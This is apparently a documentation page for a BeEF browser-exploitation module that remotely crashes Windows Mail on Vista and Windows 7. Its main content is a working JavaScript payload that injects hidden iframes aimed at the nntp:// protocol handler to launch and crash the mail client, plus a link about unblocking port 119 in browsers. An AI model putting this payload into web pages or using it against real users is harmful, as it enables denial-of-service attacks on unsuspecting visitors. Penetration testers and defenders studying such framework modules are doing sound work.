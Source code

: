 ## Summary

* **Objective**: Crash Windows Mail (on Vista and Win7 SP2) remotely
* **Authors**: bcoles
* **Browsers**: Firefox

* [Code](https://github.com/beefproject/beef/tree/master/modules/local_host/window_mail_client_dos)

## Internal Working

This module exploits an unhandled exception in Windows Mail to crash the client remotely.

Windows Mail is launched and then crashed if it is not already open. It comes installed by default on Windows Vista (but it's also vulnerable on Windows 7 SP2).

The protocol handler used will be nntp://

```js
var protocol_iframe;
for(var i=1;i<=10;i++) {
        protocol_iframe = document.createElement('iframe');
        protocol_iframe.setAttribute('src',   'nntp://127.0.0.1:119//');
        protocol_iframe.setAttribute('id',    'winmail'+i);
        protocol_iframe.setAttribute('style', 'display:none');
        winmail_container.contentWindow.document.body.appendChild(protocol_iframe);
}
```

## References

The port for NNTP (119) will be blocked in newer versions of Chrome and Firefox
https://e1tips.com/2014/03/17/allow-firefox-chrome-to-access-restricted-ports/


## Feedback

